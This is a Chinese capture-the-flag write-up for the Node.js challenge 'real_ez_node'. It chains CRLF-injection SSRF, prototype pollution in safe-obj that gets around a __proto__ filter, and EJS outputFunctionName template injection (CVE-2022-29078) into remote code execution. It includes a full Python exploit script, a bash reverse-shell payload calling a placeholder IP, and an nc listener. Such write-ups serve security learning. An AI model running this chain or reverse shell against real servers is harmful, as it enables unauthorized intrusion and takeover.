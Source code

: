 # [XHLJ2023]real_ez_node
![](<./img/Pasted image 20230202140119.png>)

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/', (req, res) => {
    if (req.query.q) {
        console.log('get q');
    }
    res.render('index');
})
router.post('/copy', (req, res) => {
    res.setHeader('Content-type', 'text/html;charset=utf-8')
    var ip = req.connection.remoteAddress;
    console.log(ip);
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg = "only for admin"
        res.send(JSON.stringify(obj));
        return
    }
    let user = {};
    for (let index in req.body) {
        if (!index.includes("__proto__")) {
            safeobj.expand(user, index, req.body[index])
        }
    }
    res.render('index');
})

router.get('/curl', function (req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
        try {
            http.get(url, (res1) => {
                const {statusCode} = res1;
                const contentType = res1.headers['content-type'];

                let error;
                // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                if (statusCode !== 200) {
                    error = new Error('Request Failed.\n' +
                        `Status Code: ${statusCode}`);
                }
                if (error) {
                    console.error(error.message);
                    // 消费响应数据以释放内存
                    res1.resume();
                    return;
                }

                res1.setEncoding('utf8');
                let rawData = '';
                res1.on('data', (chunk) => {
                    rawData += chunk;
                    res.end('request success')
                });
                res1.on('end', () => {
                    try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData + '');
                    } catch (e) {
                        res.end(e.message + '');
                    }
                });
            }).on('error', (e) => {
                res.end(`Got error: ${e.message}`);
            })
            res.end('ok');
        } catch (error) {
            res.end(error + '');
        }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

存在三个路由，其中`/copy`只能由本地访问，`/curl`通过`http.get`方法访问`/`

要想访问`/copy`路由，需要通过`/curl`进行SSRF

参考 [NodeJS 中的 CRLF Injection](https://web.archive.org/web/20231216212929/https://www.anquanke.com/post/id/240014#h2-11)

利用node.js的`http`模块对于Unicode字符截取低位字节的特性，可以绕过低版本node.js对CRLF的转义，实现HTTP的响应拆分，获得对`/copy`的访问能力

---

`/copy`中可以利用的是`safe-obj`模块

参见 [safe-obj模块原型链污染](https://xz.aliyun.com/t/12053#toc-17)

利用`safe-obj`的`expand`函数，可以实现为任意对象添加字符串属性

```javascript
if (!index.includes("__proto__")) {
	safeobj.expand(user, index, req.body[index])
}
```

源码中过滤了`__proto__`，然而通过`constructor.prototype`亦能获取到原型

---

参考 [(CVE-2022-29078)The RCE exploit 🔥🔥](https://eslam.io/posts/ejs-server-side-template-injection-rce/#the-rce-exploit-)

`ejs`模块低版本有这样的逻辑

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

将未经过转义处理的`outputFunctionName`通过拼接方式加入代码中执行，前提是`opts`能够解析出`outputFunctionName`属性

于是构造`POST`内容

```javascript
constructor.prototype.outputFunctionName=x;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');s
```

来实现反弹shell

---

最终脚本如下

```python
import requests
from urllib.request import quote

payload = """ HTTP/1.1

POST /copy HTTP/1.1
Host: 127.0.0.1
Content-Length: {}
Content-Type: application/x-www-form-urlencoded

{}

GET / HTTP/1.1
test:""".replace('\n', '\r\n')

body = """constructor.prototype.outputFunctionName=x%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxx.xxx.xxx.xxx/2333%200%3E%261%22%27%29%3Bs"""

payload = payload.format(len(body), body)


def payload_encode(raw):
    res = ''
    for i in raw:
        res += chr(0x0100 + ord(i))
    return res


requests.get(
    'http://3000.endpoint-68e34d3c59d64675ad67a1b75741c685.m.ins.cloud.dasctf.com:81/curl?q='
    + quote(payload_encode(payload)))

```

vps上开启监听

```shell
nc -lvvp 2333
```

![](<./img/Pasted image 20230202150044.png>)

#Web #nodejs #HTTP #CRLF #SSRF #safe-obj #原型污染 #js #ejs #RCE #Vulnerabilities #反弹shell 
